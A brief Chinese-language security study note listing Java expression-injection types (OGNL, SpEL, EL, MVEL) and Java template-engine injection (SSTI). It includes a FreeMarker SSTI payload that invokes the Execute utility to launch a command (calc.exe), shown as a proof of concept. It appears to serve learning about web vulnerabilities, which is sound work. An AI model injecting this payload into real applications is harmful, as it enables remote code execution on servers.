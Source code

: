 ## **表达式注入**
Struts2-OGNL
Spring-SPEL
JSP-JSTL_EL
Elasticsearch-MVEL

最常考的就是SPEL表达式注入


^
## **模板引擎注入SSTI**
由java后端模板引擎注入导致的RCE漏洞，如：Freemarker、Velocity、Thymeleaf等
```
Freemarker：在html中
<divclass="content-txt">${announce.content}</div>

<#assign value="freemarker.template.utility.Execute"?new()>${value"calc.exe")}
````